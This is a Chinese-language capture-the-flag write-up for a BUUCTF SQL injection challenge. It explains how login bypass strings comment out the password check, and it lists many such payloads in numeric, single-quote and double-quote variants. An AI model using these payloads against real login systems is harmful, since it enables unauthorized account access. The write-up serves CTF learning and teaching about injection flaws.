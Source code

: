# BUUCTF Web ---[极客大挑战2019]easysql 

> 涉及知识点---sql 万能密码

打开题目 一看帅气的页面 然后让输入用户名和密码 
![image](https://github.com/uicciu/image/blob/main/easysql1.png)
随便输一个吧
![image](https://github.com/uicciu/image/blob/main/easysql2.png)
显示用户名或密码有误 考虑看一下源代码 啥也没看到 再用burpsuit抓一下包看看 也啥也没看到 考虑sql注入

听说有个东西叫万能密码
这里有一部分
* 万能账号
> 原理

当我们在登录界面输入 【万能账号】比如 a’ or true # 以后，后端会将我们输入的参数拼接到SQL中，然后去数据库中查询账号和密码，SQL语句大概是下面这样

select * from user where username='a' or true #' and password='pass'

由于 # 在SQL中是注释符，注释符后面的内容不起作用，所以真正执行的SQL语句大概是下面这样

select * from user where username='a' or true

or true 会使SQL语句恒成立，从而查询出数据库中的所有账号和密码，从而使我们成功登录


【数值型万能账号】

    a or true #

    a or 1 #

    a or 1=1 #

    a or true -- a

    a or 1 -- a

    a or 1=1 -- a



【单引号字符型万能密码】

    a' or true #

    a' or 1 #

    a' or 1=1 #

    a' or true --a

    a' or 1 -- a

    a' or 1=1 -- a

【双引号字符型万能密码】

    a" or true #

    a" or 1 #

    a" or 1=1 #

    a" or true -- a

    a" or 1 -- a

    a" or 1=1 -- a
    
* 万能密码
> 原理

当我们在登录界面输入 【万能密码】 比如 admin’ # 以后，后端会将我们输入的参数拼接到SQL中，大概是下面这样

select * from user where username='admin' #' and password='pass'

由于 # 在SQL中是注释符，注释符后面的内容不起作用，所以真正执行的SQL大概是下面这样

select * from user where username='admin'

SQL只会在数据库中查询用户名，而不是同时查询用户名和密码，这就意味着，只要用户名正确，就可以登录成功    

【数值型万能密码】

    admin #

    admin -- a



【单引号字符串型万能密码】

    admin' #

    admin' -- a



【双引号字符串型万能密码】

    admin” #

    admin" -- a
    

拿万能密码试一试

![image](https://github.com/uicciu/image/blob/main/easysql4.png)

ah 找到了

嘶 但是还是不知道他是指的什么 但是知道了一种方法



